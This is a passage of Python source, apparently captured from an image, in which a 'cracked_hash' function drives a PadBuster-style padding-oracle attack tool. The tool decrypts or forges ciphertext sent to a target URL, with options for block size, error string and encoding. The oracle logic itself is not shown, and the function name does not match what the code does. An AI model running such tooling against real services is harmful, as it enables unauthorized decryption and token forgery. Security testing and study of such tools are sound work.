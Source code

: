     elapsed = time.time() - start_time
    print(f"[main_password_check] Completed. Elapsed {elapsed:.2f}s")

def cracked_hash(some_hash: str):
    """
    Show how you might call PadBuster in python as part of the logic 
    if you have an encrypted sample, block size, etc.
    """
    # minimal demonstration
    banner()

    parser = argparse.ArgumentParser(description="PadBuster-like script in Python with forging mode.")
    parser.add_argument("--url", required=False, default="http://example.com/test",
                        help="Target URL containing the ciphertext")
    parser.add_argument("--encrypted-sample", required=False, default="abcd1234abcd1234",
                        help="Encrypted sample that also appears in the request")
    parser.add_argument("--block-size", type=int, required=False, default=16,
                        help="Block size (16 for AES, etc.)")
    parser.add_argument("--error", help="Padding error string if known", default=None)
    parser.add_argument("--encoding", type=int, default=0, help="0=Base64,1=HexLower,2=HexUpper,3=.NET UrlToken,4=WebSafe B64")
    parser.add_argument("--verbose", action="store_true", help="Verbose output")
    parser.add_argument("--log", action="store_true", help="Enable file logging")
    parser.add_argument("--no-iv", action="store_true", help="Sample does not contain IV (prepend zeros)")
    parser.add_argument("--no-encode", action="store_true", help="Do not URL-encode the manipulated ciphertext")
    parser.add_argument("--plaintext", help="If provided, run in 'encrypt/forge' mode w/ that plaintext", default=None)
    args = parser.parse_args([])  
    # ^ This uses an empty list to avoid needing CLI arguments. 
    #   In real usage, remove '[]' so it parses sys.argv.

    padbuster = PadBuster(
        url=args.url,
        encrypted_sample=args.encrypted_sample,
        block_size=args.block_size,
        error_string=args.error,
        encoding_format=args.encoding,
        verbose=args.verbose,
        log_files=args.log,
        no_iv=args.no_iv,
        no_encode_option=args.no_encode,
        plaintext=args.plaintext
    )

    if padbuster.plaintext:
        print("[cracked_hash] Running PadBuster in ENCRYPT mode.")
        forged = padbuster.run_encrypt_mode(padbuster.plaintext.encode('utf-8'))
        print(f"[cracked_hash] forged cipher => {forged}")
    else:
        print("[cracked_hash] Running PadBuster in DECRYPT mode.")
        padbuster.run_decrypt_mode()
